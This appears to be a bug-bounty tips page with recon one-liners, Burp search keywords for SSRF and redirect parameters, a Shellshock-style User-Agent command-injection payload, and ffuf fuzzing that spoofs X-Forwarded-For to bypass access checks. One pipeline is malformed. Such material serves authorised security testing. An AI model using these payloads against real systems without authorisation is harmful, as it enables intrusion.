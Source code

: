 #### Get content type of target URL
##### Install these tools 
- [Projectdiscovery-tools](https://github.com/projectdiscovery)
- [gau-tools](https://github.com/lc/gau)
##### Run this
```bash
echo abc.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
```
#### Burpsuite Search Keywords
```
uri=,url=,key=,.json,oauth,redirect=,api,dashboard,config,=http,&api,@(for user based URL for SSRF)
```
### Common Tips and Tricks
> **Using gospider and chaos**
```sh
chaos -d abc.com -bbq -filter-wildcard -http-url | xargs =l@-P5 sh -c 'gospider -a -s "@" -d 3'
```
---
**Auth-Bypass**
![Auth-bypass](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Writeups/Bug-Bounty-Tips/img/auth_bypass.png)
**Bash-Injection**
```js
User-Agent:() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id;
Pragme: no-cache
```
**Graphql Manipulation**
![img](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Writeups/Bug-Bounty-Tips/img/graphql-1.jpg)
**Response Splitting**
![response-split](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Writeups/Bug-Bounty-Tips/img/reponse-splitting.jpg)
#### Tricks from OFJAAAH
```sh
assetfinder http://att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```
---
```sh
echo "domain" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```
---
##### Extract URL from .apk
```sh
apktool -d com.uber -o uberAPK; grep -Phro "(https?://)[\w\,-/]+[\"\']" uberAPK/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemes.android\|google\|goo.gl"
```
It's Better good to include the tweet URLs
##### OFJAAAH important Tweets
- https://twitter.com/ofjaaah/status/1301656601724583936?s=20
- https://twitter.com/ofjaaah/status/1301666599259299841?s=20
- https://twitter.com/ofjaaah/status/1301670965672374273?s=20
- https://twitter.com/ofjaaah/status/1301698412061097985?s=20
- https://twitter.com/ofjaaah/status/1301884598603964417?s=20
- https://twitter.com/KingOfBugbounty/status/1301945115620016130?s=20
- https://twitter.com/vrkaushik/status/1301950916786966528?s=20
- https://twitter.com/ofjaaah/status/1301979769471463426?s=20
- https://twitter.com/ofjaaah/status/1302080260717121536?s=20
- https://twitter.com/ofjaaah/status/1302214901314629635?s=20
- https://twitter.com/sec715/status/1302112348769931265?s=20
- https://twitter.com/KingOfBugbounty/status/1302381012119441412?s=20
- https://twitter.com/ofjaaah/status/1302713182964809728?s=20